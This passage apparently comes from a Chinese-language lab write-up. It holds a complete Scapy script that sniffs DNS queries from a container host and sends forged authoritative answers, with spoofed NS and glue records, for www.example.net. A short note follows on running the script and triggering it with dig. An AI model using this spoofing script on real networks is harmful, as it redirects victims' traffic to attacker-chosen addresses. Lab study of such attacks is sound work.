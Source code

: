 ```python
#!/usr/bin/python
from scapy.all import *
def spoof_dns(pkt):
    if (DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
        # Swap the source and destination IP address
        IPpkt = IP(dst = pkt[IP].src, src = pkt[IP].dst)
        # Swap the source and destination port number
        UDPpkt = UDP(dport = pkt[UDP].sport, sport = 53)
        # The Answer Section
        Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A',
        ttl = 259200, rdata = '1.1.1.1')
        # The Authority Section
        NSsec1 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns1.example.net')
        NSsec2 = DNSRR(rrname = 'example.net', type = 'NS',
        ttl = 259200, rdata = 'ns2.example.net')
        # The Additional Section
        Addsec1 = DNSRR(rrname = 'ns1.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.4')
        Addsec2 = DNSRR(rrname = 'ns2.example.net', type = 'A',
        ttl = 259200, rdata = '1.2.3.5')
        # Construct the DNS packet
        DNSpkt = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, rd = 0, qr = 1,
        qdcount = 1, ancount = 1, nscount = 2, arcount = 2,
        an = Anssec, ns = NSsec1/NSsec2, ar = Addsec1/Addsec2)
        # Construct the entire IP packet and send it out
        spoofpkt = IPpkt/UDPpkt/DNSpkt
        send(spoofpkt)
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter = 'udp and dst port 53 and src host 172.17.0.3',
prn = spoof_dns, iface = "docker0")

```

 完成编写后，在命令行中启动该脚本保持监听，准备攻击

运行脚本，在user端使用 dig www.example.net 命令激发dns查询，得到和攻击脚本一致的返回结果，
如下：  

![image-20220430162031841](README.assets/image-20220430162031841.png)
